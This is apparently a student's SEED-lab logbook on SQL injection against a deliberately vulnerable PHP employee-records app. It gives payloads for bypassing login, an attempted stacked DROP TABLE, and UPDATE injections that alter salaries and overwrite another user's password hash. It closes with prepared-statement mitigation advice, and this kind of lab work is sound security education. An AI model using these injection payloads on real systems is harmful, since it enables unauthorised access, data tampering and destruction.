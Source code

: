 # SQL Injection LogBook

This logbook pretends to documentante the work that was made in the SQL Injection lab, deduce some conclusions, identify the errors that were commited as well as to suggest the mosifications that would make the system secure to this type of attacks.

## Task 1

This first task is to adapt to the environment. We must use:

```sh
mysql -u root -pdees
```

and then we can use this

```sh
show tables;
```


## Task 2

In this attack, we were presented to the php file that is being ran under the server side.

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
```

and then, the form looks like this:

![Form1](images/LOGBOOK8/form1.png)

### Task 2.1 - Attack from webpage

Considering that we know the code, it is really easy to exploit this vulnerability:

`username: admin'; -- `


`password: <anything> `

This approach works, because the sql statement that will be queried to the database will be partionally connected and, with that, we can enter the system:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; -- and Password=’<anything>";
```

### Task 2.2 - Attack from command line

After that, the approach that was made was exaclty the same, but in the command line, it will go like this:

```sh
curl ’www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password=<anything>’
```

This approach works and the justification is similar to task 2.1

### Task 2.3 - Append a new SQL statement

The next challange is to try to add a new sql statement in the project. Here is a way of how to do that:

`username: admin'; DROP TABLE credential; -- `


`password: <anything> `

This approach will lead to a query like this:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; DROP TABLE credential; -- and Password=’<anything>";
```

However, this query does not let to drop the table `creentia`. That occurs because the `$conn -> query($sql)` only executes the first query as a protection measure.

## Task 3

Here is the php code that executes the query that will update the database after editing the profile

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
   nickname=’$input_nickname’,
   email=’$input_email’,
   address=’$input_address’,
   Password=’$hashed_pwd’,
   PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

The form looks like this:

![Form2](images/LOGBOOK8/form2.png)

### Task 3.1 - Modify own salary

To do so, the parameters would be

`nickname: <nickname>', salary = 1000000 WHERE nickname = <nickname>; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

With that, we reach the following sql code:

```sql
UPDATE credential SET
   nickname=’<nickname>’, salary = 1000000 WHERE nickname = <nickname>; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

### Task 3.2 - Reduce the Boby's salary

`nickname: Boby', salary = 1 WHERE nickname = Boby; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

We reach the following query:

```sql
UPDATE credential SET
   nickname=’Boby’, salary = 1 WHERE nickname = Boby; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

### Task 3.3 - Modify other people’ password

For this example, assuming that we know that the password is hashed using the sha1 method, we can change the password manually. For instance, let's change the password of Boby to `banana`. If we consult [this site](http://www.sha1-online.com), we reach the hashed password, so we can see this:

`nickname: Boby', password = '250e77f12a5ab6972a0895d290c4792f0a326ea8' WHERE nickname = Boby; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

```sql
UPDATE credential SET
   nickname=’Boby’, password = '250e77f12a5ab6972a0895d290c4792f0a326ea8' WHERE nickname = Boby; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

## How to prevent this kind of attack

Here are some suggestations to make this kind of attacks more difficult to occur:

1. Use Parameterized Statements (Prepared Statements). This will help to distinguish between the sql code and the sql data. Something like:

```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);

$stmt = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
                        FROM credential
                        WHERE name=? AND Password=?");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);

$stmt->execute();

$result = $stmt->get_result();
```

2. Input validation using regular expressions and others

